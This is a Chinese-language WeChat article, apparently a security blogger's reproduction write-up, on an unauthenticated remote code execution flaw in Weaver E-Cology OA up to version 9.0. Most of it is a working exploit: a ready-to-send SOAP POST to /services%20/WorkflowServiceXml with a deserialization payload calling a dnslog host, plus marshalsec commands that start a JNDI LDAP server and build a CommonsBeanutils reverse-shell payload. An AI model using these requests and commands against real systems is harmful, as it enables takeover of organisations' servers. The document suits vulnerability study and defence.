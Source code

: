 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/DVlZC5jU6MQQqUoM2gKTBg)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRje4G63OeC8nFZg4HLZEJU5BzicGQFYzMEibR2wpz4EfQbjsjOFk7gpPeOV1CGsspeUDDwcMN2roNeLQ/640?wx_fmt=png)

x 微 E-Cology WorkflowServiceXml RCE

‍‍

一、漏洞描述

泛微 E-cology OA 系统的 WorkflowServiceXml 接口可被未授权访问，攻击者调用该接口，可构造特定的 HTTP 请求绕过泛微本身一些安全限制从而达成远程代码执行。

‍二、漏洞影响

E-cology <= 9.0

‍三、漏洞复现‍‍

访问主页：  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRje4G63OeC8nFZg4HLZEJU5BAejEF6TxrdL0WicqOu1knurrlqySJz23rTGnrOiaLMBtwfsuCCvcANDA/640?wx_fmt=png)

POC：

```
POST /services%20/WorkflowServiceXml HTTP/1.1
Accept-Encoding: gzip, deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: ""
Content-Length: 10994
Host: xxx
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.services.weaver.com.cn">
   <soapenv:Header/>
   <soapenv:Body>
      <web:doCreateWorkflowRequest>
.      <web:string>
        <map>
          <entry>
            <url>http://thelostworld.dnslog.cn</url>
            <string>http://thelostworld.dnslog.cn</string>
          </entry>
        </map>
        </web:string>
        <web:string>2</web:string>
.      </web:doCreateWorkflowRequest>
   </soapenv:Body>
</soapenv:Envelope>
```

编码：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRje4G63OeC8nFZg4HLZEJU5BhFTExcW4CWW6p5OFp5vKFAMPUMfqXdqOlayXjZV39qt9uvp4ib6nqSw/640?wx_fmt=png)

```
POST /services%20/WorkflowServiceXml HTTP/1.1
Accept-Encoding: gzip, deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: ""
Content-Length: 10994
Host: xxx
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.services.weaver.com.cn">
   <soapenv:Header/>
   <soapenv:Body>
.      <web:doCreateWorkflowRequest>
      <web:string>
        <map>
          <entry>
            <url>http://thelostworld.dnslog.cn</url>
            <string>http://thelostworld.dnslog.cn</string>
          </entry>
        </map>
        </web:string>
.        <web:string>2</web:string>
      </web:doCreateWorkflowRequest>
   </soapenv:Body>
</soapenv:Envelope>
```

或者直接：  

利用 marshalsec 生成反弹 shell  payload

启动 jndi ：ldap 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8888/#Exploit
```

生存 poc：  

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.XStream CommonsBeanutils ldap://127.0.0.1:1389/Exploit > payload.xml
```

DNSlog：  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdDuQj65VIerUhLtlUNicJTRAAOqj8Yvj1NshPmzCt2OSRLt5EQI1MGibpwqCITDFjbNCUcaIIQicAiag/640?wx_fmt=png)

执行命令  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdDuQj65VIerUhLtlUNicJTRljRx37B1eicElm5xSr2r1mTRV7A2f6IarwYT5yZs9C0wZbfPVu9KKGg/640?wx_fmt=png)

参考：  

https://mp.weixin.qq.com/s/-eTSGvjuygGxULHcw6lOMg

http://wiki.peiqi.tech/PeiQi_Wiki/OA%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/%E6%B3%9B%E5%BE%AEOA/%E6%B3%9B%E5%BE%AEE-Cology%20WorkflowServiceXml%20RCE.html?h=%E6%B3%9B%E5%BE%AEE-Cology%20WorkflowServiceXml%20RCE

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

如果本文内容侵权或者对贵公司业务或者其他有影响，请联系作者删除。  

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

语雀博客主页：https://www.yuque.com/thelostworld

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)

‍